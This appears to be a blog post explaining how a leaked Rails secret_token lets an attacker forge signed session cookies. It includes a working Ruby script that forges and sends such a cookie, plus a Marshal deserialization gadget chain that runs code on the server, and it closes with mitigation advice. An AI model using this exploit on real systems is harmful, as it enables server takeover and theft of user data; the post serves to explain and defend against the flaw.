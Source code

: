 ```yaml
---
layout: post
title: How to hack a Rails app using its secret_token
hn: 6051120
---
```

Create a new Rails app, open `/config/initializers/secret_token.rb` and you'll see your app's `secret_token`. As I will show you, if anyone who wishes you harm gets hold of this string then they can execute arbitrary code on your server. Troublingly, the Rails default includes it in your version control, and if you don't remove it then anyone who gets or is given access to your codebase has complete, complete control over your server. Maybe you added them to your private repo for a code review, or unthinkingly put a side-project production app into a public repo, or someone sneaked a look at your Sublime while you were out. It doesn't matter - if they have this key then they own you.

### Why your `secret_token` is important - session cookies

Your `secret_token` is used for verifying the integrity of your app's session cookies. A session cookie will look something like:
<pre><code>

    _MyApp_session=BAh7B0kiD3Nlc3Npb25faWQGOgZFRkkiJTcyZTAwMmRjZTg2NTBiZmI0M2UwZmY0MjEyNGJjODBhBjsAVEkiEF9jc3JmX3Rva2VuBjsARkkiMWhmYTBKSGQwYVQxRlhnTFZWK2FEZEVhbEtLbDBMSitoVEo5YU4zR2dxM3M9BjsARg%3D%3D--dc40a55cd52fe32bb3b84ae0608956dfb5824689
</code></pre>

The cookie value (the part after the `=`) is split into 2 parts, separated by `--`. The first part is a Base64 encoded serialization of the hash that Rails will use as the `session` variable in controllers. The second part is a signature created using `secret_token`, that Rails uses to check that the cookie it has been passed is legit. This prevents users from forging nefarious cookies and from tricking Rails into loading data it doesn't want to load. Unless of course they have your `secret_token` and can also forge the signature...

### The serialized session hash

The first part of the cookie is a Marshal dump of the session hash, encoded in Base64. Marshal is a Ruby object serialization format that is used here to allow Rails to persist objects between requests made in the same session. In many cases it will only store the `session_id`, `_csrf_token` and Warden authentication data, but calling `session["foo"] = "bar"` in your controllers allows you to store pretty much anything you want. For my cookie above, unescaping the URL encoding and then Base64 decoding gives:

    \x04\b{\aI\"\x0Fsession_id\x06:\x06EFI\"%72e002dce8650bfb43e0ff42124bc80a\x06;\x00TI\"\x10_csrf_token\x06;\x00FI\"1hfa0JHd0aT1FXgLVV+aDdEalKKl0LJ+hTJ9aN3Ggq3s=\x06;\x00F

which if you squint hard enough is indeed starting to look kind of like a hash. This cookie is passed up to the server with each request, Rails calls `Marshal.load` on it, and merrily populates `session` with whatever serialized objects it is passed. Object persistance between requests. Brilliant.

### The signature

But wait, the cookie obviously lives on the client side, which means that a user can set it to be anything they want. Which means that the user can pass in whatever serialized object they want to our app. And by the time we reinflate it and realise that they have passed us a small thermonuclear device, it will be too late and the attacker will be able to execute arbitrary code on our server.

That's where our `secret_token` and the second part of the cookie value (the part after the `--`) come in. Whenever Rails gets a session cookie, it checks that it hasn't been tampered with by verifying that the HMAC digest of the first part of the cookie with its `secret_token` matches the second, signature part. This means in order to craft a nefarious cookie an attacker would need to know the app's `secret_token`. Unfortunately, just being called `secret_token` doesn't make it secret, and, as already discussed, if you aren't careful then it can easily end up somewhere you don't want it to.

### The attack - how to bake a poisonous cookie

If you know an app's `secret_token` and want to forge a valid cookie, you simply need to reverse the above process:

    require "net/http"
    require "uri"

    secret_token = "stolen-from-github-or-somewhere"

    # Construct your evil hash
    my_evil_session_hash = {
        "ive_made_a_huge_mistake" => true
    }

    # Serialize your hash
    marshal_dump = Marshal.dump(my_evil_session_hash)

    # Base64 encode this dump
    unescaped_cookie_value = Base64.encode64(marshal_dump)

    # Escape any troublesome characters and remove line breaks altogether
    escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

    # Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
    cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

    # Construct your evil cookie by concatenating the value with the signature
    my_evil_cookie = "_MyApp_session=#{unescaped_cookie_value}--#{cookie_signature}"

    # BOMBS AWAY
    url = URI.parse("http://myapp.com/") # Make sure you have a trailing / if you are sending to the root path

    req = Net::HTTP::Get.new(url.path)
    req.add_field("Cookie", my_evil_cookie)

    res = Net::HTTP.new(url.host, url.port).start do |http|
      http.request(req)
    end

This request will load `my_evil_session_hash` into `session`, which is purely on principal not good. But loading arbitrary strings and integers is not about to melt any servers. How can you choose the contents of your hash so as to actually do some damage? Some obsure objects buried deep inside Rails are happy to oblige:
   
    # Thanks to the folks at CodeClimate for pointing this out

    # The code in the ERB will run when the session is accessed
    erb = ERB.allocate
    erb.instance_variable_set :@src, "User.steal_all_passwords; User.email_spam_to_all_users;"
    
    proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result)
    my_evil_session_hash = {
        "proxy_of_death" => Marshal.dump(proxy)
    }
    # ... continue as above

And presto.

### Knowing is half the battle

ALL of this trouble can be trivially avoided by taking `secret_token` out of your version control. Put it into an environment variable (https://github.com/bkeepers/dotenv works on local, https://devcenter.heroku.com/articles/config-vars shows you how to set them on Heroku) and you can sleep (a bit more) soundly at night. If you suspect that someone you wouldn't want to meet on a dark night knows your `secret_token` then you can simply change it. All your existing cookies will be invalidated, but nothing else bad will happen. Of course, you still don't want anyone you don't trust to get any kind of access to your codebase at all. But you can at least make life difficult for them even if they do.




